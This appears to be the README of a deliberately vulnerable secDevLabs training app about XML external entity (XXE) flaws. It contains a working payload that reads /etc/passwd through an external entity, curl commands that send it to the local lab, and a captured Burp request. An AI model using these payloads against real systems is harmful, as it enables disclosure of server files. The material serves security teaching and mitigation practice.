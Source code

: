 # XXE--

Many older or poorly configured XML processors evaluate external entity references within XML documents. External entities can be used to disclose internal files using the file URI handler, internal file shares, internal port scanning, remote code execution, and denial of service attacks.

The main goal of this app is to discuss how **XXE** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup


    make install


Then simply visit [localhost:10004][App] ! 😆





```XML
<?xml version="1.0" encoding="UTF-8"?>
<contact>
    <name>RAFAEL</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And  run:

    curl -d @payload.xml localhost:10004/contact.php ; echo

evilxml.xml

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <contact>
    <name>&xxe;</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
    </contact>

Attack :

    curl -d @evilxml.xml localhost:10004/contact.php ; echo
    
Burp Request : 


    POST /contact.php HTTP/1.1

    <?xml version="1.0" encoding="UTF-8"?>

    <!DOCTYPE foo [<!ENTITY xxezrp9j SYSTEM "file:///etc/passwd"> ]><contact>
    
    <name>mvmm&xxezrp9j;</name>
    
    <email>ccc@gmail.com</email>
    
    <subject>aaacckj</subject>
    
    <message>undefined</message></contact>
